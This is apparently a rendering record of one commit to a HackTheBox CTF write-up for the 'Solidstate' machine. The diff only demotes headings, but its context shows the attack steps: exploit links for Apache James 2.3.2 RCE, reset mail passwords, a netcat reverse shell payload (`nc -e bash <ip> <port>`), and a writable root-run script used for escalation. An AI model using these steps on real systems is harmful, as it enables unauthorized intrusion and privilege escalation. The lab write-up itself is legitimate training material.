

Before and after one commit to zhsh9/HackTheBox-Writeup, a Sphinx documentation site: the page built from source/linux/Solidstate.md, in a window 1280 px wide and 1400 px high, scrolled down 1789 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
[*] update Sense and Solidstate

```diff
--- a/source/linux/Solidstate.md
+++ b/source/linux/Solidstate.md
@@ -57,12 +57,12 @@
 
 ## Foothold
 
-## Apache James Server 2.3.2 RCE
+### Apache James Server 2.3.2 RCE
 
 - [40123-exploiting-apache-james-server-2.3.2.pdf (exploit-db.com)](https://www.exploit-db.com/docs/english/40123-exploiting-apache-james-server-2.3.2.pdf)
 - [Apache James Server 2.3.2 - Remote Command Execution - Linux remote Exploit (exploit-db.com)](https://www.exploit-db.com/exploits/35513)
 
-## 4555 Password Altering
+### 4555 Password Altering
 
 ![image-20231215165926233](./Solidstate.assets/image-20231215165926233.png)
 
@@ -71,7 +71,7 @@
 - Users: `james`, `thomas`, `john`, `mailadmin`
 - Pass: `qwe`
 
-## 110 POP3 Enum
+### 110 POP3 Enum
 
 - james
 
@@ -97,7 +97,7 @@
 
 ## Privilege Escalation
 
-## mindy's rbash escape
+### mindy's rbash escape
 
 - method1: Apache James Server 2.3.2 RCE
   - run rce script: payload = `nc -e bash <ip> <port>`
@@ -106,7 +106,7 @@
 
 ![image-20231215171835490](./Solidstate.assets/image-20231215171835490.png)
 
-## mindy -> root
+### mindy -> root
 
 - script in /opt: /opt/tmp.py -> 777 -> clear /tmp -> very potentially is a sheduled task as root
 
```
Also changed, not shown: source/linux/Sense.md (+3 -3 lines).
